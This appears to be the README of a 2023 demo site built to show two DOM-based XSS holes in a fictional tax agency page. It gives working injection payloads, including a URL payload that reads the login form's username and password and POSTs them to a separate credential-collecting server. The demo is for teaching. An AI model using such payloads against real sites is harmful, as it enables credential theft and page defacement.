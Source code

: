 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

- To inject malicious code via html element, open the search.html page and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicius code via url:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the following URL: ```https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log```

# Notes
- Created for educational purposes only and to demonstrate how bad XSS can be
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Malicious code nspired by: https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html

# License
Creative Commons Attribution 3.0 Unported
http://creativecommons.org/licenses/by/3.0/

*M.Tsanov, 2023*